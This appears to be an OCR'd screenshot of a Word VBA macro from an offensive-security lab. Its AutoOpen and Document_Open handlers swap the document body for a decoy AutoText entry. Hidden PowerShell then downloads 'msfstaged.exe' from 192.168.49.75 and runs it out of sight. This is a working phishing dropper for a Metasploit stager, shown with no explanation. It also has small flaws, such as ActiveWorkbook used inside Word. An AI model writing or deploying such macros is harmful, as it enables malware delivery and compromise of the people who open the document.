  

Sub Document_Open() SubstitutePage

End Sub

Sub AutoOpen() SubstitutePage

End Sub

Sub SubstitutePage()  
ActiveDocument.Content.Select  
Selection.Delete ActiveDocument.AttachedTemplate.AutoTextEntries("TheDoc").Insert Where:=Selection.Range, RichText:=True 
Dim str As String
    str = "powershell  -NoProfile -ExecutionPolicy unrestricted -Command Invoke-WebRequest 'http://192.168.49.75/msfstaged.exe' -OutFile 'msfstaged.exe'"
    Call Shell(str, vbHide)
    Dim exePath As String
    exePath = ActiveWorkbook.Path + "\msfstaged.exe"
    Application.Wait (Now + TimeValue("00:00:10"))
    Call Shell(exePath, vbHide)
End Sub